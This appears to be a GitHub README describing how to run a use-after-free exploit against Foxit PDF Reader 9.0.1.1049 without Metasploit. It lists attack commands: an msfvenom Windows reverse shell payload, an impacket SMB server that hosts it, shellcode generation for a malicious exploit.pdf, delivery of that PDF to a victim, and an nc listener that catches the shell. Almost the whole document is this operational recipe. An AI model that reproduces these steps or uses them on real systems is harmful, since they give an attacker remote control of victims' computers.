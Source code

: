 Foxit PDF Reader 9.0.1.1049 - Pointer Overwrite Use-After-Free (Without Metasploit)

Based on https://www.exploit-db.com/exploits/45269

1. Generate payload, the one i used for testing is:
  - msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.10 LPORT=443 -f exe > shell.exe

2. Open an SMB server with the payload in it
  - impacket-smbserver sharename /path/to/payload

3. Generate shellcode with the following script
 - ruby generate_shellcode.rb

4. Copy the output of the script and put it inside exploit.pdf, on the reclaim() function, where specified

5. Transfer exploit.pdf to victim

6. Open a listener on the attacking machine, in my case:
- nc -lnvp 443

7. Open exploit.pdf with the vulnerable version of foxit reader on the target

#PWNED
